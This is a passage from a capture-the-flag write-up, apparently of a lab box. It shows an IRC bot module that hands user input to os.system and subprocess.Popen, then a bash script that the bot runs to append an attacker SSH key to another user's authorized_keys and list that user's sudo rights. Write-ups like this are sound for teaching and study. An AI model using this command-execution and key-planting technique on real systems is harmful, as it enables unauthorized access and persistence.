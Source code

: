 So, after digging a bit with irssi,  wallaby's `.run` custom sopel module will only accept a single arg. This is because `trigger.group(2)` is the a python regex object `match.group` that's part of the [sopel framework](https://sopel.chat/tutorials/part-1-writing-modules/), which defines `trigger.group(2)` as "anything after the command" (as in the command to the bot). So our module won't accept any sort of command with multiple args, because the string in `trigger.group(2)` is passed to this simple module, which uses the old `'%s'` style of python string formatting when it, in turn, calls `os.system()` and also `subprocess.Popen()`, which both need tokenization of args, not just a raw string. We tried faking the format of our commands in [the format expected](https://docs.python.org/3/library/subprocess.html#subprocess.run), but that didn't work. We took a break because it was late and we all had real life stuff to do the next day.

{{< highlight markdown >}}
waldo@ubuntu:/home/wallaby/.sopel/modules$ cat run.py 
import sopel.module, subprocess, os
from sopel.module import example

@sopel.module.commands('run')
@example('.run ls')
def run(bot, trigger):
     if trigger.owner:
          os.system('%s' % trigger.group(2))
          runas1 = subprocess.Popen('%s' % trigger.group(2), stdout=subprocess.PIPE).communicate()[0]
          runas = str(runas1)
          bot.say(' '.join(runas.split('\\n')))
     else:
          bot.say('Hold on, you aren\'t Waldo?')
{{< / highlight >}}

I was thinking about this before bed, and thought we might be overthinking it. What about a much simpler solution? I dropped this idea in our shared notes.

> Maybe we can create a shell script in a location Waldo can access, make it 777 and then run it as wallaby with the single arg bot invocation of .run as waldo?

In the morning,"Matato" lit up our chat after he ran with the idea to create a script and run it as the single arg to `.run` so that `waldo` can execute code as `wallaby`. Here's my script. "Matato", independently did the nearly the exact same thing; he beat me in the keyboard race. :)

{{< highlight markdown >}}
waldo@ubuntu:~$ cat test 
#!/bin/bash
sudo -l
mkdir /home/wallaby/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2NNNICETRYMORTY9a42+m7rFv root@kali" >> /home/wallaby/.ssh/authorized_keys
chmod 600 /home/wallaby/.ssh/authorized_keys
{{< / highlight >}}

I thought we might need to put this in a neutral place like `/var/www/html` or something, but because the permissions on home are `755` instead of `700`, we can just run this from `waldo`'s home!

{{< highlight markdown >}}
22:03 < waldo> .run /home/waldo/test
22:03 < wallabysbot> b'Matching Defaults entries for wallaby on ubuntu:     env_reset, mail_badpass, 
                     secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin  User wallaby may run the following commands on ubuntu:     
                     (ALL) NOPASSWD: ALL '
{{< / highlight >}}
